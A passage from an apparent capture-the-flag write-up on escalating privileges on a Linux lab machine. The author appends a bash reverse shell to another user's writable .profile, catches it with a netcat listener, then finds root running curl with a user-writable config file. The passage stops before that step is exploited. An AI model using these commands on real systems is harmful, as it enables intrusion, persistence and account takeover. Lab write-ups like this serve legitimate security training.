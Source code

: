Going to ayham home directtory you will find the first flag

## Privilege escalation

after some basic enumeration, i decided to run linpeas.sh, and noticed something interesting in the output 

```
╔══════════╣ Interesting writable files owned by me or writable by everyone (not in Home) (max 500)
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-files
/dev/mqueue
/dev/shm
/home/F30s/.profile
/home/ayham
/run/lock
/tmp
/tmp/linpeas.sh
/var/tmp
```
we see that we can write into the /home/F30s/.profile file.

the .profile file is executed whenever a user (F30s in this case) logs into their account, since we have write access to it let's add a reverse shell inside and wait hoping F30s will login and the profile file will get executed
```
ayham@482cbf2305ae:/tmp$ echo 'bash -c "bash -i >& /dev/tcp/10.6.75.26/5555 0>&1"' >> /home/F30s/.profile
```
Waiting a bit

```
nc -lnvp 5555 
listening on [any] 5555 ...
connect to [10.8.18.3] from (UNKNOWN) [10.10.5.80] 54292
bash: cannot set terminal process group (8976): Inappropriate ioctl for device
bash: no job control in this shell
F30s@482cbf2305ae:~$
```
and we got a shell as F30s.

i decided to run pspy64 to see live running processes, and noticed an interesting process

```
CMD: UID=0     PID=298    | /bin/sh -c    curl -K /home/F30s/site_check
```
so root is executing curl -K /home/F30s/site_check, let's check the site_check file

```
F30s@482cbf2305ae:~$ cat site_check
url = "http://127.0.0.1/health_check"
```

so this is a curl config file, basically instead of specifying arguments in the terminal, we can just add them to this config file, and we see that the url is http://127.0.0.1/health_check, i tried to access that but got no connection.
